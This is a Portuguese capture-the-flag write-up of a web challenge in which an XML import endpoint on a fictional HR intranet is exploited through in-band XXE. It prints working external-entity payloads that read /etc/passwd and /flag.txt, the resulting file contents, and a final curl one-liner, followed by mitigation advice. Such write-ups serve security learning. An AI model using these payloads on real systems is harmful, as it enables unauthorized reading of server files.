

<div align="center">

<a href="https://git.io/typing-svg"></a>

</div>

# Export XML — WEB · 🔴 DIFFICILE

- **Status:** ✅ RESOLVIDO — XXE in-band lendo `/flag.txt` do container
- **Pontos:** 175 (pontuação dinâmica; 145 solves no momento da resolução)
- **Alvo:** `https://export-xml.cyberzerk.fr/` (HTTP, POST XML) — intranet fictícia "TRICATEL / SIRH"
- **Anexo:** `CONNEXION.txt` (só informava `export-xml.cyberzerk.fr (HTTP 8080, POST XML)`)
- **Enunciado:** *"L'import de demandes de congés accepte du XML (POST). Faites-lui lire un fichier local."*
- **Flag:** `CyberZerk{XXE_f1l3_pr0t0c0l_l1t_l3_fich13r_d3s_c0ng3s}`

---

## TL;DR

1. Endpoint de RH importa demandas de licença via **POST XML** processado por um **parser legado** ("I haven't touched the options") → **resolução de entidades externas ligada**.
2. O campo refletido na resposta é o **`<agent>`** (aparece como `Agent : ...`), **não** o `<reason>` (`Motif :` é placeholder fixo `?`).
3. Declarar uma entidade externa `SYSTEM "file://..."` no `<!DOCTYPE>` e referenciá-la em `<agent>` → **XXE in-band** lê arquivos do disco. A flag estava em **`/flag.txt`**.

## Análise

### Reconhecimento

O app TRICATEL expõe um "HR import module" que aceita XML por POST. A dev-note do próprio
app entregou o vetor:

> *"legacy parser reused from the old HRIS, I haven't touched the options. It works, we'll see later."*

Parser XML antigo com opções default = entidades externas habilitadas (o clássico
`libxml2`/SAX pré-hardening). O enunciado reforça: *"faites-lui lire un fichier local"*.

### Achando o sink de reflexão (a pegadinha)

A primeira hipótese — que `<reason>` era o campo refletido — **foi falsificada**. O POST
inicial com `agent=Felipe reason="Personal leave request"` devolvia:

```
Agent : Felipe
Motif : ?
```

O `Motif` volta **sempre** `?`, independentemente do input: é um placeholder fixo, o app
nem lê esse campo para a saída. Quem reflete de verdade é o **`<agent>`**. Confirmado com
uma entidade interna no campo certo:

```xml
<!DOCTYPE request [ <!ENTITY xxe "XXE_FUNCIONA_123"> ]>
<request><agent>&xxe;</agent><reason>x</reason></request>
```
→ `Agent : XXE_FUNCIONA_123` ✅ (entidades expandem, e `<agent>` é o sink)

### Escalando para leitura de arquivo (XXE SYSTEM)

Troca da entidade interna (texto) por **externa** (`SYSTEM` + `file://`), referenciada em `<agent>`:

```xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<request><agent>&xxe;</agent><reason>x</reason></request>
```

Resposta (confirmação de leitura de disco):

```
Agent : root:x:0:0:root:/root:/bin/bash
...
player:x:10001:10001::/home/player:/bin/sh
```

O `/etc/passwd` revelou o único usuário real: **`player` (uid 10001, `/home/player`)** — o
usuário de serviço do container.

### Localizando a flag

`/home/player/flag.txt` voltou **vazio** (entidade resolveu para nada → arquivo inexistente).
Hipótese derrubada → enumeração dos caminhos clássicos. A flag estava na **raiz**, em `/flag.txt`:

```xml
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<request><agent>&xxe;</agent><reason>x</reason></request>
```
→ `Agent : CyberZerk{XXE_f1l3_pr0t0c0l_l1t_l3_fich13r_d3s_c0ng3s}` ✅

### Fluxo do ataque



## O que não funcionou

| Hipótese | Resultado | Por quê |
|---|---|---|
| Campo refletido é `<reason>` | ✗ | `Motif :` é placeholder fixo `?`; o sink real é `<agent>` |
| Flag em `/home/player/flag.txt` | ✗ | arquivo inexistente (entidade vazia) — estava em `/flag.txt` |
| Loop com payload entre aspas duplas | ✗ | `!` de `<!DOCTYPE` disparou expansão de histórico do bash (`!DOCTYPE: event not found`); resolvido com `set +H` |

## Conclusão

XXE in-band de manual: parser XML legado com entidades externas ativas + um campo refletido na
resposta = leitura arbitrária de arquivos do servidor. O trabalho real foi (1) corrigir o sink
(`agent`, não `reason`) e (2) enumerar o caminho da flag após o palpite do home falhar.

**Mitigação:** desabilitar DTDs/entidades externas no parser
(`libxml_disable_entity_loader(true)` / `FEATURE_SECURE_PROCESSING` / `resolve_entities=False`),
ou não aceitar XML de entrada não confiável.

---

## Apêndice — payload final

```bash
set +H
curl -s -X POST 'https://export-xml.cyberzerk.fr/' \
  -H 'Content-Type: application/xml' \
  --data-binary "<?xml version='1.0'?><!DOCTYPE r [<!ENTITY xxe SYSTEM \"file:///flag.txt\">]><request><agent>&xxe;</agent><reason>x</reason></request>" \
  | grep -oP '(?<=Agent : ).*'
```
